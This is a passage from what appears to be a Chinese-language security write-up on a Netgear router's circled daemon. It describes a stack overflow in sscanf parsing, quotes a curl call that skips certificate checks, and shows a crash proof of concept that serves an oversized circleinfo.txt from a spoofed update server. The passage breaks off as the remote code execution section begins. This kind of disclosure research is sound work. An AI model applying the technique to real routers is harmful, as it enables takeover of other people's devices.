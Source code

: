 正如我们在这段代码片段中看到的，`line` 变量最多可以处理 1024 个字符，尽管 `db_checksum_val` 和 `db_checksum` 在 `sscanf` 中只有 256 个字符。这两个变量都位于堆栈的末尾，这允许我们触发堆栈溢出。

#### 获取文件

位于 `0xE2D8` 的函数（我们命名为 `retrieve_circleinfo_txt`）的从远程服务器获取 `circleinfo.txt` 文件，并将其复制到 `/tmp` 文件夹中。函数 `url_retrieve`（位于 `0xC904`）用于下载文件。下载是通过 https 服务器完成的，但该功能不检查证书：

```c
snprintf(curl_cmdline, v8 - 1, "%s %s %s/%s", "curl -s -m 180 -k -o", output, server, path);
printf("%s: Executing '%s'\n", "url_retrieve", curl_cmdline);
system(curl_cmdline);
free(curl_cmdline);
```

curl 提供的 -k 选项可以显式地绕过证书检查。换句话说，这意味着任何人都可以模拟更新服务器。

可以下载合法文件进行检查：

```shell
$ curl https://http.fw.updates1.netgear.com/sw-apps/parental-control/circle/r6700v3/https/circleinfo.txt
firmware_ver 2.3.0.1
database_ver 3.2.1
platforms_ver 2.15.2
db_checksum 80f34399912c29a9b619193658d43b1c
firmware_size 1875128
database_size 8649020
$
```

#### POC

为了验证这个漏洞，我们将 Netgear 路由器配置为使用我们自己的 DNS 服务器，这允许我们将查询重定向到我们自己的服务器。我们选择服务一个包含 1000 个'A'，后跟一个空格和一个'A'的文件：

```shell
$ cat circleinfo.txt
A(..1000x..)A A
$
```

在 circled 日志（`/tmp/circledinfo.log`）中，我们可以看到进程在循环中崩溃并重新启动。

```shell
Sat Sep 4 01:19:10 2021 ERROR: loader exited, forking new loader now ...
```

### EXPLOITATION

在本节中，我们将描述如何将此漏洞转化为远程命令执行的完整工作漏洞。

#### 策略

在我们的设置中，我们是 Netgear 的 DHCP 服务器。我们可以是 DNS 服务器和 https 更新服务器(由于 curl -k，任何自签名证书都将被接受)。

##### 重定向到执行
